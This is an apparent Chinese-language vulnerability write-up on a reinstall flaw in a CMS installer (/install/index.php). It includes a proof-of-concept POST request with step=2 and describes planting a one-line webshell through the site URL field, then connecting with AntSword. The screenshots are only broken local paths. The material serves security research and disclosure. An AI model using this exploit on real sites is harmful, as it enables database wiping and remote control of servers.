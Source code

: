 ​                                                                  系统重装漏洞

路由地址： /install/index.php  

找到可控变量$step，其中以POST数据提交

![image-20250705164353913](C:\Users\bqangus\AppData\Roaming\Typora\typora-user-images\image-20250705164353913.png)

继续往下看发现step 为1,2,3,4，分别进入不同的php页面
![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps1.jpg)

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps2.jpg)

在step_2.php文件中发现step=2时，可以进入该页面

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps3.jpg) 

尝试burp提交数据2,3,4

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps4.jpg) 

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps5.jpg)

 

 

 

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps6.jpg) 

 

发现step=4时，结果为非法提交，然后从step=2，抓取进入数据按照页面，发现验证token

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps7.jpg) 

Poc：

POST /install/index.php HTTP/1.1

Host: zz.cms

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Content-Type: application/x-www-form-urlencoded

Cookie: PHPSESSID=l68f4rbt3n55lbrle4f531ba35

Connection: close

 

step=2



![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps16.jpg)

可以重装数据库

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps17.jpg) 

同时，发现填写数据库的信息是部分可控制的

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps18.jpg) 

发现如果更改框选部分内容，根据上面是无法连接数据库的，所以只能控制网站链接
![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps19.jpg)

在网站访问网址地址这一栏加入一句话木马

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps20.jpg) 

 

查看代码，发现一句话木马写入成功

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps21.jpg) 

使用蚁剑进行连接，链接成功

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps22.jpg) 

 

查看文件

![img](file:///C:\Users\bqangus\AppData\Local\Temp\ksohtml47416\wps23.jpg) 